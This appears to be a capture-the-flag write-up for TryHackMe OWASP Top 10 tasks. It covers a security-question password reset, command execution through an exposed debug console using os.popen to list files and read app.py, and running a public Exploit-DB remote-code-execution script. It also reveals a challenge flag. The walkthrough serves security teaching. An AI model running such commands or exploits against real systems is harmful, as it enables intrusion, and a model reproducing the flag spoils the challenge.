




# [Task 11] 4. Insecure Design
## Reset Password
Choose the question of `What's your favourite colour?` <br>
```
green
```
## New Password
 <br>
```
VXdN29LygflFsJ
```
## Log In with New Password
 <br>

## Flag
Move `flag.txt` to the `private` folder, and open the file to get the flag. <br>
 <br>

# [Task 12] 5. Security Misconfiguration
Firstly, Navigate to `<YOUR_MACHINE_IP>:86/console`. <br>
Then, execute the code: <br>
```python3
import os; print(os.popen("ls -l").read())
```
 <br>

To read `app.py`, execute this code: <br>
```python3
import os; print(os.popen("cat app.py").read())
```
 <br>

# [Task 15] Vulnerable and Outdated Components - Lab

Go to [Online Book Store 1.0 - Unauthenticated Remote Code Execution ](https://www.exploit-db.com/exploits/47887?source=post_page-----73d5248fc8e4--------------------------------), and download `47887.py`. <br>

 <br>

Execute `47887.py`. <br>
 <br>

## Get the Flag
 <br>

```
THM{But_1ts_n0t_my_f4ult!}
```


